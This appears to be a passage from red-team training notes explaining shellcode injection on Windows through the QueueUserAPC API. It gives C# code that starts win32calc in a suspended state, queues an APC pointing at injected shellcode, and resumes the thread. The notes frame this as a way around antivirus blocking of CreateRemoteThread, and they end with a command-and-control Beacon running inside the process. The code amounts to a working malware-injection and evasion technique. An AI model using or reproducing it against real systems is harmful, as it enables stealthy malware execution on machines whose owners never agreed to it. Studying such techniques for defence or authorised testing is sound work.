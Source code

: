 CreateRemoteThread is very heavily scrutinised and AVs such as Windows Defender tend to block it by default.  **QueueUserAPC** is another API that we can use to execute shellcode in a process.  There are two main ways to use it:

1.  Spawn a process in a suspended state, queue the APC on the primary thread and resume.
2.  Enumerate threads of an existing process and queue the APC on one of them.
    1.  Wait for that thread to enter an alerted state, or
    2.  Force that thread to enter an alerted state.

The first option of spawning a process is the most straight forward.

1.  Spawn a process as before, but pass the CREATE_SUSPENDED flag (documented [here](https://docs.microsoft.com/en-us/windows/win32/procthread/process-creation-flags)).  If the process fails to start, just throw an exception as we can't continue further.

var si = new Win32.STARTUPINFO();
si.cb = Marshal.SizeOf(si);

var pa = new Win32.SECURITY_ATTRIBUTES();
pa.nLength = Marshal.SizeOf(pa);

var ta = new Win32.SECURITY_ATTRIBUTES();
ta.nLength = Marshal.SizeOf(ta);

var pi = new Win32.PROCESS_INFORMATION();

var success = Win32.CreateProcessW(
    "C:\\Windows\\System32\\win32calc.exe",
    null,
    ref ta,
    ref pa,
    false,
    0x00000004, // CREATE_SUSPENDED
    IntPtr.Zero,
    "C:\\Windows\\System32",
    ref si,
    out pi);

// If we failed to spawn the process, just bail
if (!success)
    throw new Win32Exception(Marshal.GetLastWin32Error());

  

2.  Fetch the shellcode and write it into the target process.

3.  Call the QueueUserAPC API.  Give it the location of the shellcode in memory and the handle to the process' primary thread.

// Queue the APC
Win32.QueueUserAPC(
    baseAddress, // point to the shellcode location
    pi.hThread,  // primary thread of process
    0);

  

4.  Resume the thread.

// Resume the thread
Win32.ResumeThread(pi.hThread);

  

You will now have a Beacon running in win32calc.

![[26. QueueUserAPC.png]]



